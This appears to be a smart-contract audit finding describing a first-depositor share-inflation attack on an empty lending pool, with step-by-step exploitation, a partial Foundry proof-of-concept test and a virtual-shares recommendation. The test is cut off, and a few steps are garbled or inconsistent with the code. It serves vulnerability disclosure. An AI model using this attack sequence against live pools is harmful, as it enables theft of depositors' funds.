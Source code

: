Rough Goldenrod Condor

High

# The Rounding Done in Protocol's Favor Can Be Weaponized to Drain the Protocol

## Summary
Empty pools' assets have been drained by the first depositor via inflating share prices.

## Vulnerability Detail

- **Empty Pool Condition:** The vulnerability occurs when the pool's total supply is zero.
- **Initial Deposit:** The attacker deposits 1000 wei worth of underlying assets. 
- **Borrowing:** The attacker borrows 1000 wei using the borrow function.
- **transfer amount** Position  manager mint  shares via transfer amount  
- **Partial Repayment:** Within the same block, the attacker repays 1000 wei. Due to rounding in favor of the protocol, total assets become 1001 wei, while the total supply remains 1000.
![image](https://github.com/user-attachments/assets/cb13b08c-8230-431f-bd15-edb89adad380)

- **Withdraw:** The attacker withdraws 999 wei, leaving the pool with a total supply of 1 and total assets of 2 wei.
![image](https://github.com/user-attachments/assets/7a4529d7-e948-446d-ab39-e8036323646e)

- **Inflation Attack:** The attacker repeatedly deposits and withdraws (total assets - 1) in the pool more than 80 times in a loop, leading to an inflated share price.

```solidity
 function testfirstdepositor() external {
    uint assets = 1000;
    vm.assume(assets > 0);
    vm.startPrank(user);

    asset1.mint(user, 1000e18);
    asset1.approve(address(pool), assets);

    pool.deposit(linearRatePool, 1000, user);
    assertEq(pool.getAssetsOf(linearRatePool, user), assets);
    assertEq(pool.balanceOf(user, linearRatePool), assets); // Shares equal 1:1 at first
    vm.stopPrank();

    vm.startPrank(registry.addressFor(SENTIMENT_POSITION_MANAGER_KEY));
    pool.borrow(linearRatePool, user, assets);
    vm.warp(block.timestamp + 10);
    vm.roll(block.number + 1 );
    asset1.mint(address(pool),1001);
    pool.repay(linearRatePool, user, assets + 1);


    vm.stopPrank();
    vm.startPrank(user);
    pool.withdraw(linearRatePool, 999 , user, user);


    asset1.mint(user, assets);
    asset1.approve(address(pool), 1000e18);

    uint256 n = 60;
    for(uint8 i = 0; i < n; i++){
        uint256 amount = i ** 2 + 1;
        pool.deposit(linearRatePool, amount , user);
    
        pool.withdraw(linearRatePool, 1 ,user,user);
        (,,,,,,,,,uint256 totalDepositAssets,uint256 totalDepositShares) = pool.poolDataFor(linearRatePool);
        require (totalDepositShares == 1, "should be one ");



    }
 
 
 
```


## Impact

The first depositor loses their funds as the attacker manipulates the share price to drain the pool's assets.

## Code Snippet
https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/main/protocol-v2/src/Pool.sol#L275

## Recommendation

Implement virtual shares or another mechanism to prevent rounding errors and price manipulation, especially when the pool is empty or has a very low total supply.
